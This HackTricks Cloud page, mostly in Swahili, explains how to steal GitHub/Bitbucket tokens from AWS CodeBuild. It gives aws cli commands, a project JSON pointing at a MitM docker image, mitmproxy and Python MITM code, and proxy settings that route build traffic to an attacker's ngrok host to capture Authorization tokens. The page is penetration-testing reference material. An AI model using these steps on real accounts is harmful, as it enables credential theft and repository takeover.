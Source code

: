 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

Kwanza, angalia kama kuna akidi za chanzo zilizowekwa ambazo unaweza kuvuja:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Ikiwa unapata kuwa uthibitisho kwa mfano Github umewekwa katika akaunti, unaweza **kuondoa** hiyo **ufikiaji** (**GH token au OAuth token**) kwa kufanya Codebuild **itumie picha maalum ya docker** kuendesha ujenzi wa mradi.

Kwa kusudi hili unaweza **kuunda mradi mpya wa Codebuild** au kubadilisha **mazingira** ya moja iliyopo ili kuweka **picha ya Docker**.

Picha ya Docker unayoweza kutumia ni [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Hii ni picha ya Docker ya msingi sana ambayo itakamilisha **env variables `https_proxy`**, **`http_proxy`** na **`SSL_CERT_FILE`**. Hii itakuruhusu kukamata sehemu kubwa ya trafiki ya mwenyeji iliyoonyeshwa katika **`https_proxy`** na **`http_proxy`** na kuamini SSL CERT iliyoonyeshwa katika **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
* Fuata maelekezo ya repo kuweka anwani yako ya IP ya proxy na kuweka cheti chako cha SSL na **ujenge picha ya docker**.
* **USIWEKE `http_proxy`** ili usikamate maombi kwa kiungo cha metadata.
* Unaweza kutumia **`ngrok`** kama `ngrok tcp 4444` kuweka proxy kwa mwenyeji wako.
* Mara tu unapokuwa na picha ya Docker iliyojengwa, **ipakie kwenye repo ya umma** (Dockerhub, ECR...)
2. **Set the environment**
* Unda **mradi mpya wa Codebuild** au **badilisha** mazingira ya moja iliyopo.
* Weka mradi kutumia **picha ya Docker iliyozalishwa awali**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* Kama ilivyoonyeshwa katika **Github repo** unaweza kutumia kitu kama:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Toleo la **mitmproxy lililotumika lilikuwa 9.0.1**, iliripotiwa kwamba na toleo la 10 hii huenda isifanye kazi.
{% endhint %}

4. **Kimbia ujenzi & kamata taarifa za kuingia**

*   Unaweza kuona token katika kichwa cha **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Hii inaweza pia kufanywa kutoka kwa aws cli kwa kitu kama

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Kupitia itifaki ya HTTP~~

{% hint style="success" %}
**Ukatili huu ulirekebishwa na AWS kwa wakati fulani katika wiki ya 20 ya Februari ya 2023 (nadhani Ijumaa). Hivyo, mshambuliaji hawezi kuutumia tena :)**
{% endhint %}

Mshambuliaji mwenye **idhini za juu katika CodeBuild anaweza kuvuja token ya Github/Bitbucket** iliyowekwa au ikiwa idhini ilipangwa kupitia OAuth, **token ya muda ya OAuth inayotumika kufikia msimbo**.

* Mshambuliaji anaweza kuongeza mabadiliko ya mazingira **http\_proxy** na **https\_proxy** kwenye mradi wa CodeBuild ukielekeza kwenye mashine yake (kwa mfano `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Kisha, badilisha URL ya repo ya github kutumia HTTP badala ya HTTPS, kwa mfano: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Kisha, endesha mfano wa msingi kutoka [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) kwenye bandari iliyotajwa na mabadiliko ya proxy (http\_proxy na https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Hatimaye, bonyeza **Jenga mradi**, **vithibitisho** vitatumwa kwa **maandishi wazi** (base64) kwenye bandari ya mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sasa mshambuliaji ataweza kutumia token kutoka kwa mashine yake, kuorodhesha haki zote alizo nazo na (ku)zitumia kwa urahisi zaidi kuliko kutumia huduma ya CodeBuild moja kwa moja.
{% endhint %}

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
